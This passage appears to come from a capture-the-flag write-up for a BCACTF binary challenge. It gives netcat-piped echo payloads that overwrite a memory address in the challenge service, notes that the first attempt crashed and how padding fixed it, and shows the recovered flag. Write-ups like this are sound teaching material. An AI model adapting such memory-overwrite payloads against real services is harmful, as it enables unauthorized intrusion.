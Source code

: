 And to feed into the netcat: `echo -e "3\n1\n3\n2\n2\n1\n4\n1\n\xe0\x16\x50\x00\x00\n3\n3\n3\n4\n4\n4\nfL4g\n1\n4\n" | nc bin.bcactf.com 49180`

Interestingly enough, this crashes - due to there not being space before
`0x5016e0`. I'm not fully knowledgeable about why this is, but I found the fix
to this by writing to `0x5016e4` instead of 0x5016e8, and then padding the
fL4g by 4 characters (in this case 4 `0`s). This led to the final payload
being  
```  
echo -e "3\n1\n3\n2\n2\n1\n4\n1\n\xdc\x16\x50\x00\x00\n3\n3\n3\n4\n4\n4\n0000fL4g\n1\n4\n" | nc bin.bcactf.com 49180  
```

> `bcactf{e8f73a0ebcd82fcce8a}`